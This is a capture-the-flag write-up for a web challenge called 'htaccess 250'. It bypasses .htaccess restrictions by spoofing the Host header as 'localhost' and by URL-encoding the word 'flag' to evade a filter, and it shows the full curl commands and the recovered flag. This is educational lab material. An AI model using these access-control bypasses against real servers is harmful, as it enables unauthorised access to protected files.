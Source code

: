 # htaccess 250
```
Your job is to bypass these htaccess restrictions and view the flag files anyway. Good luck!
```
>[http://htaccess.uctf.ir/](http://htaccess.uctf.ir/)

# Solution
There is two parts to this challenge. Both parts must match the regex to obtain the full flag. 

Part One: Set HTTP HOST to localhost

```
curl 'http://htaccess.uctf.ir/one/flag.txt' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://htaccess.uctf.ir/' \
  -H 'Host: localhost' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36' \
  --compressed \
  --insecure
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    10  100    10    0     0     14      0 --:--:-- --:--:-- --:--:--    14

uctf{Sule_
```

Part Two: Do not use the word "flag" in the request. Can use URL Encoding to bypass the filter
```
curl 'http://htaccess.uctf.ir/two/%66%6C%61%67.txt' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh;q=0.6' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://htaccess.uctf.ir/' \
  -H 'Host: localhost' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36' \
  --compressed \
  --insecure
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    16  100    16    0     0     25      0 --:--:-- --:--:-- --:--:--    25

Dukol_waterfall}
```
# Flag
```
uctf{Sule_Dukol_waterfall}
```
